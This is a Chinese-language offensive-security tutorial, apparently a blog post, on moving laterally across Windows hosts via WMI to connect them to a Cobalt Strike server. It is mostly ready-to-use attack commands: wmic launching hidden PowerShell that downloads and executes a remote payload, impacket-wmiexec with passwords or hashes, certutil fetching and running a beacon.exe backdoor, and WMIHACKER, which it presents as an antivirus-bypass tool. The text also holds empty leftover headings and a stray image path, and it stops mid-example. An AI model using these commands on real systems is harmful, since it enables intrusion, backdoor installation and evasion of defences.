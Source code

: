 

#### 4）不足：

---


#### 6）相关工具：

> 
<h3> 2、上线：</h3>
<h4>1、wmic</h4>
1）方法一：
Attacks---&gt;Web Drive-by---&gt;Scripted Web Delivery(脚本式网页递送)

进行相关的配置（与后面上线cs命令，紧密贴合）
设置监听器、以及Type为powershell

在客户机上执行wmic命令
<pre>`wmic /NODE:192.168.*.*（目标主机） /user:"用户" /password:"密码" PROCESS call create "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://*.*.*.*:port/a'))\""`</pre>

上线cs成功

 ——————
2）方法二：
Attacks---&gt;Packages---&gt;payload generator（有效载荷发生器）
选中监听器---&gt;载荷选Powershell
客户机上执行wmic命令（指定机器上线CS）
<pre><code>wmic /NODE:192.168.*.* /user:"用户" /password:"密码" PROCESS call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('http://*.*.*.*:port/payload.ps1');\""
</code></pre>

<hr/>
<h4>2、impacket-wmiexec</h4>
1）执行命令
交互式&amp;单执行<br/> wmiexec ./administrator:密码@192.168.*.*(目标主机) "whoami"<br/> wmiexec -hashes :值 ./administrator@192.168.*.*(目标主机) "whoami"
——————
2）下载后门
wmiexec ./administrator:密码@192.168.*.*(目标主机) "cmd.exe /c certutil -urlcache -split -f http://192.168.*.*/beacon.exe c:/beacon.exe"
——————
3）执行后门<br/> wmiexec ./administrator:密码@192.168.*.*(目标主机) "cmd.exe /c c:/beacon.exe"
<hr/>
<h4>3、wmicmd.exe</h4>
（需要.NET环境）
1）在工作组上使用
<pre>`WMIcmd.exe -h IP -d hostname -u localadmin -p theirpassword -c "command"`</pre>
2）在域内使用
<pre>`WMIcmd.exe -h IP -d domain -u domainadmin -p theirpassword -c "command"`</pre>
<hr/>
<h4>4、WMIHACKER</h4>
使用方法来自GitHub
[rootclay/WMIHACKER：绕过防病毒软件横向移动命令执行工具 (github.com)<img alt="icon-default.png?t=N176" src="https://csdnimg.cn/release/blog_editor_html/release2.2.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N176"/>https://github.com/rootclay/WMIHACKER](https://github.com/rootclay/WMIHACKER)
<pre><code>1、命令执行后显示结果
cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1
